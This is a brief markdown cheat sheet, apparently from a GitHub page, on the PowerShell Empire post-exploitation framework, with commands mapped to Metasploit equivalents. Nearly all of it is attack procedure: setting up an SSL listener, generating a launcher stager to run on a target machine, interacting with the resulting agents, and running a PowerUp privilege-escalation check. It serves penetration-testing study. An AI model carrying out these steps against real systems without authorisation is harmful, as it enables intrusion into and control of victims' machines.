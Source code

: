 ### config to use SSL
```powershell
cd /root/tools/Empire/setup/
./cert.sh
```

in Empire:
set CertPath /root/tools/Empire/data
execute = run/exploit (metasploit)
back = same as (metasploit)


BindIP = lhost (metasploit)
Port = lport (metasploit)

- Verify
listeners
now our listener should appear

### set Stager
```powershell
usestager = it will show the options
usestager multi/launcher
info = to show options
set Listener http
execute
copy the payload to execute in the target machine
```

### Agents
After executing the payload in the target, we should have an agent in Empire = same as session in metasploit

```powershell
agents = it will show the open session
help
interact <tab> choose an option = same as session -i <number> (metasploit)
```

### In Empire Session
```powershell
help = always to show the available options
info = same as sysinfo (metasploit)
shell = to use commands

shell whoami
shell whoami /GROUPS
usemodule
searchmodule checks

usemodule privesc/powerup/allchecks
execute
```
